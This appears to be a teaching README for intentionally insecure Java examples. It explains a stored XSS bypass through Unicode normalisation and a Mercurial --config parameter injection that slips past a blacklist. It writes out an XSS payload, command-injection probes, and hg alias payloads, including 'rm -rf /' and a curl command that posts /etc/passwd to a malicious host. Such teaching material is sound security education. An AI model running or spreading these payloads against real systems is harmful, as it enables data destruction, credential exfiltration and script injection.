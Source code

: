 # Contents

- [StoredXSS.java](#storedxssjava)
- [ParameterInjection.java](#parameterinjectionjava)


&nbsp;


## [StoredXSS.java](../../examples/insecure/java/StoredXSS.java)
Path: `examples/insecure/java/StoredXSS.java`

### Explanation
The application is monolithic and uses server-side rendering.
It fetches user comments from the backend, as we can see on line 7.
On line 9, it appears that the backend is encoding certain characters: `<` becomes `&lt;`, and `>` becomes `&gt;`.

The issue arises on line 10. While the context provided by the backend seems safe, the encoded data is passed to the Normalizer class after encoding. Essentially, the already-encoded data gets decoded. This results in the unwanted behavior of decoding the characters that should have remained encoded.

The Normalizer class likely normalizes Unicode characters, as the backend normalizes smaller or larger characters. Given this, it's reasonable to assume that the normalizer could be normalizing Unicode characters as well.

As a result, it's highly likely that a Unicode-based XSS payload will work here. For example:  
```bash
{'comment':'\ufe64script\ufe65alert(document.domain);\ufe64/script\ufe65'}
```


&nbsp;


## [ParameterInjection.java](../../examples/insecure/java/ParameterInjection.java)
Path: `examples/insecure/java/ParameterInjection.java`

### Explanation

This Java example demonstrates a **Parameter Injection vulnerability** in a Mercurial (hg) integration. The code attempts to prevent command injection through blacklisting but fails to secure the `--config` parameter, allowing arbitrary command execution.

**Insecure Blacklist Approach (Lines 8-9):**
   - Only blocks basic command injection attempts using `$(` and `backticks`
   - Does not address parameter-based attacks

#### Blocked Command Injection Attempt
```bash
hg identify http://example.com/$(id)   # Prevented by blacklist
hg identify http://example.com/`id`    # Prevented by blacklist
```

**Unsanitized Command Execution:**
- Directly incorporates user input into system commands.
- Critical Parameter in Mercurial (hg): --config allows overriding commands.

#### Parameter Injection
```bash
hg identify --config=alias.identify=!id
```
- **Mechanism:**
  1. Overrides the `identify` command alias via `--config`
  2. `!id` executes system commands through Mercurial's alias functionality
  3. Full command execution chain:
     ```
     hg → config parser → shell execution
     ```

**Attackers can execute:**
  ```bash
hg identify --config=alias.identify='!rm -rf /'  # Destructive commands
hg identify --config=alias.identify='!curl -X POST -d @/etc/passwd http://malicious.site' # Data exfiltration
  ```


&nbsp;